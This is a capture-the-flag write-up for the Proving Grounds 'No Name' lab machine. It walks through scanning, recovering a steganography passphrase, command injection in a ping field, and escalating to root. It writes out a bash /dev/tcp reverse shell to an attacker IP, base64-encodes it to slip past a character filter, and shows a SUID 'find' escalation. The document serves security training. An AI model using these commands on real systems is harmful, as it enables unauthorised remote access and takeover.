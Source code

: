 ```yaml
---
layout: default
title: No Name
parent: Proving Grounds Play
nav_order: 27
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.15
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 22:57 EST
Nmap scan report for 192.168.160.15
Host is up (0.058s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).

```

# Enumeration

---

## 80 | HTTP

### Directory Busting

WFUZZ discovers _/admin_

![admin](../../../assets/images/ctfs/proving_grounds/noname/admin.png)

There is text at the bottom of the screen, maybe a password.

![passphrase](../../../assets/images/ctfs/proving_grounds/noname/passphrase.png)

Possible password: harder
{: .warn }

After downloading the 4 images from _/admin_ we run _steghide_ against them with the _harder_ passphrase.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ steghide extract -sf haclabs.jpeg --passphrase harder
wrote extracted data to "imp.txt".

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ ls
ctf-01.jpg  haclabs.jpeg  imp.txt  new.jpg  Short.png

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ cat imp.txt
c3VwZXJhZG1pbi5waHA=
```

Decoded the Base64 encoded string and reveal _superadmin.php_

Navigating the _superadmin.php_ reveals another page with a ping query text field.

We send a ping to _localhost_ and get feedback to the screen that it was successful.

![ping](../../../assets/images/ctfs/proving_grounds/noname/ping.png)

If we pipe the localhost to _whoami_ it executes the command so we have command injection.

# Exploitation

---

Before we can get a reverse shell on this target, we need to see which bad characters are not allowed by _superadmin.php_

Let's intercept _cat superadmin.php_ in Burp.

![ping](../../../assets/images/ctfs/proving_grounds/noname/ping.png)

We can see that many of the terms/words used in netcat or bash reverse shells are not being allowed.

We should be able to encode our reverse shell one-liner with base64 to get around this check.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t bash

[+] Reverse shell command:

bash -i >& /dev/tcp/192.168.45.217/9001 0>&1

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ echo "bash -i >& /dev/tcp/192.168.45.217/9001 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIxNy85MDAxIDA+JjEK

```

Run the following in the ping query field

```bash
Query: localhost | echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIxNy85MDAxIDA+JjEK" | base64 -d | bash
```

We get a reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/noname]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.160.15] 60262
bash: cannot set terminal process group (893): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haclabs:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Enumerate Users

Located the users _haclabs_ and _yash_

## Check SUID Permissions

```bash
www-data@haclabs:/home/haclabs$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/find
/usr/bin/gpasswd
/usr/bin/chfn
```

We can exploit the _/usr/bin/find_ binary.

![suid](../../../assets/images/ctfs/proving_grounds/noname/suid.png)

```bash
www-data@haclabs:/home/haclabs$ /usr/bin/find . -exec /bin/sh -p \; -quit
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# whoami
root

```
